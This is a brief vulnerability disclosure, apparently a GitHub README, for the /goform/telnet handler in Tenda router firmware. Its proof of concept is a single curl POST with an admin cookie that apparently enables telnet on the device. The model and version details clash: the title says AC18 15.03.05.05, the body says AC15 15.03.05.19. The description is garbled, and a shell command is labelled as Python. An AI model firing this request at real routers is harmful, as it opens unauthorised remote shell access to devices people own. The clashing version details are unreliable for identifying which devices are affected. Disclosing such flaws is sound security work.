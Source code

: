 # TendaAC18v15.03.05.05telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102680

## Affected version

AC15v1.0 V15.03.05.19

## Vulnerability details

An issue was discovered in AC15v1.0 V15.03.05.19 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![image-20250117231252601](/img/image-20250117231252601.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![image-20250117231359310](/img/image-20250117231359310.png)

